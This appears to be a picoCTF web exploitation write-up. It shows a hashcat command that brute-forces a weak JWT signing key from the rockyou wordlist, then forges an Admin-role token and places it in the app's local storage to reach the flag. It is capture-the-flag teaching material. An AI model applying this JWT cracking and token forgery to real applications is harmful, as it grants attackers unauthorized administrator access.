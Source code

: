 # Challange Info

Name : Java Code Analysis!?!

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/355?category=1&page=1

# Writeup

The webapp provides you books and there are three tiers to access books Free, Premium, Admin the admin role is required to access the flag.

Checking storage of webapp and there is a JWT in local storage.

Trying to bruteforce the JWT key with hashcat.

```bash
hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNjM1NDcxMCwiaWF0IjoxNzM1NzQ5OTEwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.J-18zb26kd2vD_o8DTmkwryKFnY2CVZwA5qLe7iHfes /usr/share/wordlists/rockyou.txt
```

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNjM1NDcxMCwiaWF0IjoxNzM1NzQ5OTEwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.J-18zb26kd2vD_o8DTmkwryKFnY2CVZwA5qLe7iHfes:1234

This gives us the JWT signing key now we can generate our own JWT key.

Website Link : https://10015.io/tools/jwt-encoder-decoder

First let's decode the JWT And verify signature.

```
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1736355162,
  "iat": 1735750362,
  "userId": 1,
  "email": "user"
}
```

Entering the signature and it's verified let's copy payload and change some parameters.

```
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1736355162,
  "iat": 1735750362,
  "userId": 2,
  "email": "user"
}
```

Now sign the JWT with the key and edit it in Local storage of webapp.

For safety I also edit the token below JWT.

The book is now unlocked with the flag.
